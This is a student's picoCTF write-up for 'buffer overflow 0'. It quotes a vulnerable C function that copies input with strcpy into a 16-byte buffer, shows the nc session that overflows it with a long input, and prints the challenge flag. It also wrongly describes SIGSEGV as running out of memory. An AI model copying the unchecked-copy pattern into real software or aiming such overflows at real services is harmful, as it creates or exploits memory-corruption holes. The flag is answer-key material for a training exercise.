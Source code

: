# buffer overflow 0
> Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Additional details will be available after launching your challenge instance.


## Solution:

- connecting nc and running the program doesnt give much information
```
aditya@Dell-Inspiron:~$ nc saturn.picoctf.net 55374
Input: 111
The program will exit now
```
- taking a look at the source code reveals that
```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}
```
- buf2 size is only 16 bytes
- The program uses strcpy to copy input user to buf2
- So, if we input more than 16 bytes then it will overwrite into other parts of the memory
- This causes the program to crash, triggering the sigsegv_handler and printing the flag.

```
aditya@Dell-Inspiron:~$ nc saturn.picoctf.net 58075
Input: 111111111111111111111111111111111111111111111111111111111111111111111
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```


## Flag:

```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```

## Concepts learnt:
- how overwriting a buffer corrupts nearby memory 
- When a program runs out of memory, it leads to a SIGSEGV error

## Notes:

- I forgot what strcpy did and looked it up... and I also found my hint there (risc of overflow) :) 


## Resources:

- (https://www.geeksforgeeks.org/c/strcpy-in-c/)
- (https://phoenixnap.com/kb/sigsegv)


***
